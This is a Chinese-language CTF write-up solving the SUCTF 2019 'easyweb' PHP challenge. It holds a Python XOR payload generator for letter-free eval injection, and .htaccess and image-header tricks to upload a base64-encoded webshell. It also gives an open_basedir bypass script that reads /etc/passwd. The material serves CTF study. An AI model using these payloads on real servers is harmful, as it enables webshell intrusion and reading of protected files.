 源码：https://github.com/team-su/SUCTF-2019/tree/master/Web/easyweb

主页面给出源码，代码审计

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

首先确定漏洞类型：

```php
$hhh = @$_GET['_'];
#中间很多过滤
eval($hhh);
```

本质上是php注入。使用了eval导致用户提交的参数被当作php代码执行

然后是$_FILES，这是一个处理文件上传的超全局变量：

- $_FILES\["file"\]\["name"\] - 上传文件的名称
- $_FILES\["file"\]\["type"\] - 上传文件的类型
- $_FILES\["file"\][\"size"\] - 上传文件的大小，以字节计
- $_FILES\["file"\]\["tmp_name"\] - 存储在服务器的文件的临时副本的名称
- $_FILES\["file"\]\["error"\] - 由文件上传导致的错误代码

对于上传文件的检查逻辑是：后缀名不能带`ph`，临时文件名（这是就是文件内容）不能带`<?`，最后通过`exif_imagetype()`检查（这个函数仅仅检查文件头，可以伪造绕过）。然后使用`move_uploaded_file`移动文件到指定目录下

首先通过`eval()`执行`get_the_flag()`函数，然后写入webshell，最后蚁剑连接，这是暂时的大概思路。

传入的`$hhh`过滤了很多东西，其中最重要的就是过滤字母和数字。这里参考`php_rce.md`的的无参数rce方法：

- 异或
- 取反
- 自增

有因为过滤了`+`和`~`,而没有过滤`^`,因此选用异或

先构造phpinfo看看信息：

因为过滤单引号和双引号，并且限制了长度，所以正常直接构造phpinfo不行，考虑传入$_GET[a];a=phpinfo,然后传参

```python
import re
import requests

def blacklist(s):
    """返回False代表为被过滤"""
    m = re.compile(r"[\x00-\x320-9a-zA-Z'\"\[\]`~_&.,|=+\x7f]")
    if m.search(s) is None:
        return False
    return True
def realhex(c):
    return "%" + hex(c)[-2:]
def generate_xor_payload(target:str):
    left = []
    right = []
    for char in target:
        found = False
        for i in range(128,256):#这里因为有字符出现次数限制，让左边四字节全为%80
            if blacklist(chr(i)):
                continue
            for j in range(33,256):
                if blacklist(chr(j)):
                    continue
                elif ord(char) == (i ^ j):
                    left.append(i)
                    right.append(j)
                    found = True
                    break
            if found:
                break
    rl = ''
    rr = ''
    for l in left:
        rl += realhex(l)
    for r in right:
        rr += realhex(r)
    return rl + '^' + rr

if __name__ == "__main__":
    result = generate_xor_payload("_GET")
    print(result)
    url = 'http://328cfd4b-0397-4f21-b503-26896485a63a.node5.buuoj.cn:81/'
    payload1 = "?_=${" + result + "}{%80}();&%80=phpinfo"
    # r = requests.get(url=url+payload1)
    # print(r.content.decode())
    print(url+payload1)
```

这里有一点要注意，php在过滤传入的参数`_`的时候，执行了如下代码:

```php
$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");
```

这里是限制你的出现的字符种类不能大于12，于是我们在python脚本中遍历的时候让左边直接从%80开始，跑出来刚好左边四个字节都是%80的时候符合。因此我们构造参数传入，查看phpinfo页面

![image-20250908151443545](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250908151443545.png)

发现phpinfo显示禁用了几乎所有命令执行函数。这里正常有两种方法：LD_PRELOAD手动绕过，或者连上蚁剑利用插件一键绕过。

但是这样都需要先连上蚁剑。php5的话是构造`assert($_POST[_])`php7构造`assert(eval($_POST[_]))`或者用反引号`。但是反引号无回显，可以

- 反弹shell 
- cat文件重定向保存到有权限读取的地方
- echo一下，可以利用短标签比如```cmd=?><?=`{${~"%a0%b8%ba%ab"}{%a0}}`?>&%a0=ls```这里`~"%a0%b8%ba%ab"`就是`_GET`

这里因此直接传入的参数限制太多了，又过滤了反引号，还是要用题目给的函数

但是其实这里直接搜索flag其实就可以得到flag了：
![image-20250908152625654](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250908152625654.png)

我们还是利用一下get_the_flag

上传文件的时候后缀被严格限制了，可以上传.jpg等格式，然后再上传一个.htcess文件指定将它们解析成php

文件内容`<?`被过滤：PHP5.x版本中可以使用 `<script language='php'>eval($_REQUEST['shell']);</script>`来绕过

在这里使用base64编码。问题是怎么解码？

可以在.htaccess文件中加入

`php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_adeee0c170ad4ffb110df0cde294aecd/shell.ha"`

也可以使用别的编码，在.htaccess中使用php_value或者php_flag配置好就可以

同时为了绕过`exif_imagetype`,需要加上图片的幻术头，最简单就是GIF89a

但是这衍生两个问题：

1. base64解码以四个字节为一组，直接把GIF89a放到开头会破坏后面payload的解码
2. 你要写的webshell使用GIF89a可以，但是.htacess不能用这个。

解决也很简单，对于1我们补充两字节数据就可以，对于2则要在.htaccess中预定义长度和宽度，这是XBM的格式，也可以通过`exif_imagetype`，而#在.htaccess中代表注释，不会影响解读指令

``````
#define width 1
#define height 1
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg
``````

也可以利用WBMP格式，开头加上\x00\x00\x85\x85

最后一个问题是绕过open_basedir,这是一个限制用户访问文件活动范围的配置。我们在查看phpinfo的可以看到

有很多办法，这里给出利用ini.set绕过方法：

```php
<?php
mkdir('tmpdir');
chdir('tmpdir');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
$a=file_get_contents('/etc/passwd');
var_dump($a);
?>
```

原理如下：

1. **初始设置**：将open_basedir设置为".."（允许访问上级目录）
2. **目录遍历**：通过多次`chdir('..')`跳出限制范围
3. **重置限制**：将open_basedir设置为根目录，完全解除限制
4. **读取敏感文件**：访问本应受保护的系统文件

这本身是利用open_basedir自身的漏洞，原理这里就不再赘述。



总结一下流程：

先无数字字母RCE看phpinfo，然后上传webshell和.htaccess，连上蚁剑后通过ini.set绕过open_basedir限制。